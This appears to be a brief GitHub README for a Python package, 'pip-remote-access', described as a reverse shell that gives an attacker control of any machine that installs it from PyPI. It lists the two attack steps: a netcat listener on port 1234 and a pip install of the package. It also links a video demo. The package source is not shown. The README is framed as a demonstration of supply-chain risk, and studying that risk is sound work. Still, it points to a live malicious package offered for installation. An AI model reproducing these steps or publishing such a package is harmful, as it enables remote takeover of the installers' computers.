 # Explanation:

This is Simple Python Reverse Shell module.
It is show how one can write a exploit and upload a malicious code to pyorg.
If installed how the attacker can get over your machine.

1. First Listen on 1234 port with netcat
`nc -lvp 1234`

2. Install the package 
`pip install pip-remote-access`

#### Demo :
<a href=https://youtu.be/NOoJItXU9ps>
<img src="https://media4.giphy.com/media/GlXNuhLEjIUTAfIVpC/giphy.gif?cid=ecf05e47v0qmxkcev5dyurr35agj868z9j9nt3oglw2ed0k3&rid=giphy.gif&ct=s" width="100" height="50"/>
</a>
